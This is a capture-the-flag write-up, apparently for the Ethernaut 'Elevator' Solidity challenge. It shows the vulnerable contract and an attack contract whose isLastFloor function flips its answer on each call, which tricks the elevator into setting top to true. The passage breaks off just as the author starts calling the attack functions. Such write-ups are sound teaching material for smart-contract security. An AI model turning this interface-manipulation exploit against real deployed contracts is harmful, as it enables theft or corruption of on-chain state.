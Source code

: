 # Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```


Lets deploy this attack contract with forge

![image](https://github.com/user-attachments/assets/65925b13-aaa0-44a1-bbfa-82150462beb8)

Now that we've successfully deployed this, lets interact with the functions

We'll start by setting the floor 








































